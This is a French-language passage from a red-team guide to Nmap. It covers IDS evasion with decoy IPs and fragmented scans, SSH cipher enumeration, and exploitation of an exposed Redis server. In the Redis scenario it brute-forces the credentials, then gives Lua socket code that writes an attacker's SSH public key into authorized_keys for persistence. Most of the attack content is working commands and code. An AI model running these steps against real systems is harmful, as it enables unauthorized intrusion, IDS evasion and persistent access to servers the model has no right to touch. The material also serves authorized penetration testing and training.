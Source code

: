 ## 5. SCÉNARIOS DU MONDE RÉEL POUR LES RED TEAMERS UTILISANT NMAP

La flexibilité de Nmap le rend indispensable pour les opérations de red teaming, de la reconnaissance initiale à la persistance post-exploitation. Ce chapitre explore des scénarios pratiques à fort impact où Nmap brille dans les engagements du monde réel, complets avec des flux de travail techniques, des tactiques d'évasion et du savoir-faire opérationnel.

### 5.1 SCÉNARIO 1: CARTOGRAPHIE RÉSEAU FURTIVE DANS UN ENVIRONNEMENT RESTREINT

Objectif: Cartographier un réseau d'entreprise segmenté protégé par des pare-feu, IDS et un filtrage d'égress strict.

Défi:
* Tout le trafic non-SSH est bloqué.
* Les hôtes ignorent les sondes non sollicitées (par exemple, TCP SYN vers des ports fermés).

Approche Technique:
1. Contournement du Filtrage d'Égress avec des Sondes Leurres:
   Utilisez -D (IPs leurres) et des paquets fragmentés pour masquer l'origine des scans.
   `nmap -sS -D RND:10,192.168.1.100ME -f -T2 -p22,80,443 10.10.0.0/24`
   o RND:10 génère 10 IPs leurres aléatoires.
   o 192.168.1.100ME inclut l'IP réelle de l'attaquant (masquée parmi les leurres).

2. Empreinte Digitale de Service SSH:
   Utilisez ssh2-enum-algos pour identifier les algorithmes de chiffrement faibles:
   `nmap -p22 --script ssh2-enum-algos [target]`
   o Recherchez les chiffrements dépréciés (par exemple, arcfour, 3des-cbc) pour la planification d'exploit.

Point Clé:
* Combinez la fragmentation (-f) avec les contrôles de timing (-T2) pour évader les IDS basés sur l'heuristique.

### 5.2 SCÉNARIO 2: EXPLOITATION D'INSTANCES REDIS MAL CONFIGURÉES

Objectif: Obtenir un accès initial via un serveur Redis exposé sur Internet avec des identifiants par défaut/aucun.

Défi:
* Redis fonctionne sur le port 6379 avec protected-mode désactivé.

Approche Technique:
1. Identifier les Hôtes Redis Vulnérables:
   `nmap -p6379 --script redis-info <plage_cible>`
   o Recherchez redis_version < 6.0 (pré-ACL) ou config get dir révélant des chemins accessibles en écriture.

2. Charger la Clé SSH pour la Persistance:
   Utilisez l'intégration redis-cli de Nmap pour écrire une clé publique dans authorized_keys:
   `nmap -p6379 --script redis-brute --script-args redis-brute.username=default,redis-brute.passlist=/chemin/vers/wordlist`
   o Si l'authentification est contournée:
   ```
   local socket = nmap.new_socket()
   socket:connect("10.0.0.5", 6379)
   socket:send("CONFIG SET dir /var/lib/redis/.ssh/\r\n")
   socket:send("CONFIG SET dbfilename authorized_keys\r\n")
   socket:send("SET payload \"ssh-rsa AAAAB3N...\"\r\n")
   socket:send("SAVE\r\n")
   ```

